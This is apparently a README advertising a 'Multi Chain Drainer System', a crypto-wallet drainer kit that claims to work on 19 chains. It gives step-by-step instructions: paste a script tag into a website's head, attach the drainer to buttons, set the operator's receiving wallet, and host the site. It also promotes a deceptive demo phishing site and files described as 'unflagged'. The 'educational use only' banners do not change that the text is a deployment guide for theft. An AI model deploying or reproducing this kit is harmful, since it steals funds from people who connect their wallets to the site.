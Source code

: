 #########################################################################################################
‼️‼️ This files is dedicated to WEB3.0 learning, protection and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️
#########################################################################################################

# 💯 Multi Chain Drainer System 💯

# Drain on 19 different chains 🚀: ETH,OPTIMISM,CRONOS,BSC,GNOSIS,FUSE,HECO,POLY AND MORES !!
Installation on any website files and documentation included 🔥

# Installation & Instructions of the draining system on any WEBSITE : drainersystemonly.rar

# STEP 1 (FOLLOW THE TUTORIAL IN THE UPDATED .RAR FOR STEP 1
<script charset="UTF-8" type="text/javascript" src="./85562950-42ac-48d9-9757-cb0ae30ccb7c.js"></script>
<!–– Please do not forgot to update the files.zip (now unflagged) ––>

Paste these scripts in the head of your index.html of your website
then add the class "interact-button" to any buttons that you want to prompt the drainer.


# STEP 2
Move all the files and folder in the directory of your website. ( Image, Scripts, Style and the JS files)



# STEP 3 (USE THE NEW WALLET.JS IN THE UPDATED .RAR)
Add your Wallet Adresses in the wallet.js files, you can find the .js files in the scripts folder.

Now replace this line "0xreceiverwallet" for your wallet bsc and your wallet eth 

"eth_wallet_receiver_id" = "0xreceiverwallet";

"bsc_wallet_receiver_id" = "0xreceiverwallet";

    }
} 

It should look like this

"eth_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";

"bsc_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";
.


All is setup your drainer is ready to go. 
Upload your website on Vercel or any Hosting


# 📛 THE DRAINER ONLY DRAIN BALANCE WITH MINIMUM 10.00$ FOR COVERING TRANSACTION FEE 📛

# 📍 WE PROVIDE A CUSTOM DEMO WEBSITE 100% WORKING ALSO NAMED : drainerupdatedtemplate.rar
#    Only thing to do is # STEP 3 


# DEMO WEBSITE : https://rectify-mainnetdapps.pages.dev/dapps/ennn/

#ETHEREUM #BINANCE #NFT #SEAPORT #DRAINERTESTING #BITCOIN #BNB #ETH

#########################################################################################################
‼️‼️ This files is dedicated to WEB3.0 learning, protection and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️
#########################################################################################################

